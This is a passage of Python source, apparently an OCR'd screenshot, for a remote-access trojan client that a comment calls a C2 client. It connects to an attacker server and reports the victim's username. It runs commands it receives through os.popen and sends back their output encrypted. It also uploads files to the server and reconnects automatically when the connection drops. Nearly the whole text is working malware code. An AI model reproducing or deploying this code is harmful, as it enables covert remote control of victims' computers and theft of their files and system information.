 ```python
                bytes_enc = enc_mes(f"{path_to_file}{SEPARATOR}{filesize}", k)
                client.send(bytes_enc)
                
                # Wait for acknowledgement
                vsb = client.recv(BUFFER_SIZE)
                
                # Send encrypted file
                enc_answer = enc_mes(bytes_read, k)
                client.sendall(enc_answer)
                continue
            
            # Execute command and return result
            else:
                answer = os.popen(msg).read()
                enc_answer = enc_mes(answer, k)
                client.send(enc_answer)
        
        except Exception:
            # Handle connection errors
            client.close()
            
            # Reconnect
            time.sleep(3)
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect((TARGET_IP, TARGET_PORT))
            
            # Regenerate key
            k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(k.encode())
            
            # Send user info
            user = os.popen("whoami").read()
            enc_answer = enc_mes(f"{user}{SEPARATOR}", k)
            client.send(enc_answer)
            client.settimeout(600)

# Main execution
if __name__ == "__main__":
    try:
        # Create socket
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # Connect to C2 server
        client.connect((TARGET_IP, TARGET_PORT))
        
        # Generate random encryption key
        k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
        client.send(k.encode())
        
        # Send user info
        user = os.popen("whoami").read()
        enc_answer = enc_mes(f"{user}{SEPARATOR}", k)
        client.send(enc_answer)
        
        # Set timeout
        client.settimeout(600)
        
        # Delay
        time.sleep(50)
        
        # Start receive thread
        receive_thread = threading.Thread(target=receive, args=(client, k))
```